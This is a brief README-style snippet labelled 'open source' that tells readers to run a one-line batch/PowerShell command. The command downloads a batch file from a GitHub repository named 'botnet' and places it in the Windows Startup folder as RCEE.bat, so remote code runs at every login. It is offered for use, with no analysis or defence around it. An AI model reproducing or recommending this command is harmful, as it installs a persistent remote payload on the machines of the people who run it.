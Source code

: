 >OPEN SOURCE!!!

# CODE: (RUN ON CMD OR A BATCH FILE)
```
@echo off & powershell -Command "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/unfunnylaugh/botnet/main/code.bat', 'C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\RCEE.bat')"
```
